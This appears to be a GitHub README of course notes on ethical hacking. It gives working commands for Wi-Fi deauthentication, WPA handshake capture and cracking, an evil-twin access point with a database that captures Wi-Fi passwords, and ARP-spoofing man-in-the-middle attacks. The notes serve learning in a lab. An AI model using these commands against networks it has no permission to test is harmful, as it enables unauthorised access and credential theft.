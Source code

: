 # Ethical-hacking
Referred course:
https://www.udemy.com/course/learn-ethical-hacking-from-scratch/

This repo includes to perform penetration testting, hacking wep/wpa/wpa2 encrypted wifi using Kali linux and much more.

Preferred wireless adapter:
1. should support monitor mode and packet injection.
2. should support both 2.5GHz and 5GHz frequency.
3. should be detectable in kali linux.

Airodump-ng :
1. is a part of aircrack-ng suite
2. its a packet sniffer.
3. capture all pkts within range.
4.display detailed info about network.
5. connected clinets etc.

You cannot access built-in wireless adapted from your virtual kali machine thats why you need a external wireless adapter.
1. my tplink wireless adapter AC1300 V3.0
https://www.amazon.in/TP-Link-Wireless-Adapter-Archer-T4U/dp/B01MR6M8EC/ref=pd_sbs_147_1/262-7248665-7296922?_encoding=UTF8&pd_rd_i=B01MR6M8EC&pd_rd_r=ba922f0a-a740-41fd-a68d-bb0f62839dcc&pd_rd_w=89GYC&pd_rd_wg=74VJn&pf_rd_p=00b53f5d-d1f8-4708-89df-2987ccce05ce&pf_rd_r=D9QSQ8KF54HK6DRBAMVX&psc=1&refRID=D9QSQ8KF54HK6DRBAMVX

It has realtek chipset and supports both 2.5Ghz and 5Ghz.
tplink  v2 chipset doesnt support monitor mode, only v1 does.
But you can configure v3 to support the v3 mode using below link.
https://www.youtube.com/watch?v=UTO5mA9_Wm0 --> youtube link to install realtek chipset on kali and enable montior mode.


=================

Configure the kail linux with root/toor credentials and make sure wlan0 is detectable.

WEP encryption algorithm:
1. Its based on RC4.
2. WEP generates a unique key.
3.a unique key is a combination of  = IV(24 bit plain text intialization vector) + key

WPA2 uses CCMP encryption while WPA uses 

================

1. airodump commands:
airodump-ng --band ang wlan0

2. capture packets on a particular MAC
airodump-ng --bssid F4:8C:EB:19:98:7E --channel 36 --write handshake wlan0

3. perform deauth attack on a particular device.
aireplay-ng --deauth 4 -a F4:8C:EB:19:98:7E -c 00:26:82:8D:21:1F wlan0

4. create password file using crunch
crunch 10 12 1235micky -o passwd.txt

5. cracking wpa/wpa2 using a crunch wordlist attack.
aircrack-ng handshake-01.cap -w passwd.txt

Note: Above command takes a lot of time if the size of wordlist is huge. Alternate way is to perform a twin AP attack. 

======================================================

Twin AP attack links:
1. https://www.youtube.com/watch?time_continue=1003&v=XaKJt6tSd6E&feature=emb_title

2. https://zsecurity.org/hack-wpa-wpa2-wifi-without-wordlist-using-evil-twin-attack/

3.  https://zsecurity.org/how-to-start-a-fake-access-point-fake-wifi/

==========
1. hostapd allows over wireless adapter to broadcast multiple acess point.
2. dnsmasq works as a dhcp server and also handles dns request.
3. apache2 used to give a webpage

cmds:
apt-get update
apt-get install hostapd dnsmasq apache2
enable wlan0 in monitor mode
mkdir ~/fap
cd fap

nano hostapd.conf
copy below content in the file:

interface=wlan0
driver=nl80211
ssid=centuryhome
hw_mode=g
channel=8 --> check the channel of your router & update accordingly
macaddr_acl=0
ignore_broadcast_ssid=0


My router default gw is 192.168.0.1, so updating dhcp-range & option accordingly

nano dnsmasq.conf
interface=wlan0
dhcp-range=192.168.0.2, 192.168.0.30, 255.255.255.0, 12h
dhcp.option=3, 192.168.0.1
dhcp-option=6, 192.168.0.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=192.168.0.1


#routing table and gateway
ifconfig wlan0 up 192.168.0.1 netmask 255.255.255.0
route add -net 192.168.0.0 netmask 255.255.255.0 gw 192.168.0.1

#ip table configuration 
We need to forward traffic from eth0, the  virtual wireless adapter that is connected to the internet, to wlan0. 
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward --> enal=ble ip forwarding

First command: Interface name that is used to forward traffic from.
Second command: Interface name to receive the packets or the interface that is being forwarded to.

#database config:

service mysql start
mysql
MariaDB [(none)]> create database fap;
MariaDB [(none)]> create user fapuser;
MariaDB [(none)]> grant all on rogueap.* to 'fapuser'@'localhost' identified by 'fappassword';
MariaDB [(none)]> grant all on fap.wpa_keys to 'fapuser'@'localhost' identified by 'fappassword';
MariaDB [(none)]> use fap;
MariaDB [fap]> create table wpa_keys(password1 varchar(40), password2 varchar(40));

MariaDB [fap]> ALTER DATABASE fap CHARACTER SET 'utf8';
MariaDB [fap]> select * from wpa_keys;


Now connect to the new unsecured wifi and type 192.168.0.1 in url.
Enter your wifi password.

check password in your database.
select * from wpa_keys;

=================================================

1. netdiscover is a tool to discover all the network devices connected to a wife including their mac addresses and manufacturer.
netdiscover -r 192.168.0.1/24

2. nmap/zenmap
type zenmap on terminal, a GUI window would pop up.
zenmap ia nothing but a GUI to run nmap.
Run a ping scan or quick scan to get loads of info.

====================================================

MITM using ARP spoofing

Its a 2 step process:
Consider eth0 is the wired interface of hacker's kali machine.
Make sure network is NATNETWORK for both kali machine and victim machine

10.0.2.1 -> default gw
10.0.2.4 -> victim's ip

1. Send ARP response to router(default gw) saying eth0 interface is at the IP of vicitm. -> Here router will update its arp table with eth0 MAC.
arpspoof -i eth0 -t 10.0.2.1 10.0.2.4

2. Send ARP response to victim saying eth0 is your default gateway. -> Here victim will update its arp table with eth0 mac.
arpspoof -i eth0 -t 10.0.2.4 10.0.2.1 

Now after this router will think victim is at eth0 and victim will think router is at eth0.
So all packets exchange between victim and router will go through eth0 interface and this is called Man in the middle attack.

One last step is to enable ip forwarding on kali machine.
echo 1 > /proc/sys/net/ipv4/ip_forward

# ARP spoofing using bettercap
bettercap -iface eth0
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.4
arp.spoof on
net.spoof on

